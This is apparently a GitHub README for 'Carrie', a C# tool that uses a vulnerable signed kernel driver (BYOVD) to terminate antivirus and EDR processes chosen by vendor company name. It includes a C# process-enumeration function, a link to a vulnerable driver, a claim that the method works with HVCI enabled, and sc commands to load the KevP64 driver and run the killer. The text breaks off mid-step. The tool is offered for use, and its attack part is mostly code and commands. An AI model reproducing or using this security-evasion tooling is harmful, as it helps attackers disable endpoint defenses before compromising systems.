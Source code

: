 # Carrie
C# Anti-Malware Multi-Process Killer (BYOVD)

![image](https://github.com/ph4nt0mbyt3/Carrie/assets/137841478/d675538a-1470-4e9d-865c-0ba771cf20ab)




This code is designed to kill multiple process based on Company Name of the process, and can be changed to use Description instead

```
 static List<uint> GetProcessIdsByCompanyName(string companyName)
    {
        var processIds = new List<uint>();
        var processes = Process.GetProcesses();
        foreach (var process in processes)
        {
            try
            {
                var processModule = process.MainModule;                   
                if (processModule != null && processModule.FileVersionInfo.CompanyName == companyName)   #You can easy adapt this.
                {
                    processIds.Add((uint)process.Id);
                }
            }
            catch (Exception)
            {

            }
        }
        return processIds;
    }
```

Sample of vulnerable driver: https://www.loldrivers.io/drivers/73196456-40ae-4b6d-8562-07cf99458a7d

Works with HVCI enabled: HVCI is designed to ensure the integrity of code executed in the kernel, but it cannot protect against all possible vulnerabilities or actions that can be performed through drivers or system interfaces.

# Steps

1) Load and start the KevP64 Driver
```
sc create KevP64 binPath="c:\path\to\driver.sys" type= kernel start= demand
sc start KevP64
```

2) Start Carrie
```
Carrie.exe
```

3) Type the Company/Description name of the EDR/AV Vendor till you receive "Can't find any process related
